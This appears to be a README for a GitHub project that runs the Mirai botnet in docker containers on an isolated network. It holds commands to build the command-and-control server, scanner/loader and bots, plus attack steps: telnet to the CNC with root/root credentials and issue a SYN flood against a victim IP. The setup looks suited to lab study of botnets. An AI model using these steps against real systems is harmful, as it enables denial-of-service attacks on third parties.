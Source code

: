 # mirai-docker

## Network
Create: `docker network create --subnet=172.20.0.0/16 botnet`

## CNC
Build: `$ sudo docker build -t cnc .`  
Run: `$ sudo docker run --net botnet --ip 172.20.0.2 -i -t cnc`  

## Scanner/ Loader
Build: `$ sudo docker build -t loader .`  
Run: `$ sudo docker run --net botnet --ip 172.20.0.4 -i -t loader`  
Start Bot: `$ ./init.sh`

## Carrier Bot (Bot 1)
Build: `$ sudo docker build -t bot .`  
Run: `$ sudo docker run --net botnet -i -t bot`  
Start Bot: `$ ./init.sh [0 or 1 for scanner]` 

## Victim Bots (Bot 2)
Build: `$ sudo docker build -t bot2 .`  
Run: `$ sudo docker run --net botnet -i -t bot2`  
Start Bot: `$ ./init.sh`

## Attack Instructions
Connect to CNC: `$ telnet "IP of CNC"`  
username: root  
password: root  
attack: `$ syn "IP of Victim" "duration of attack"`  
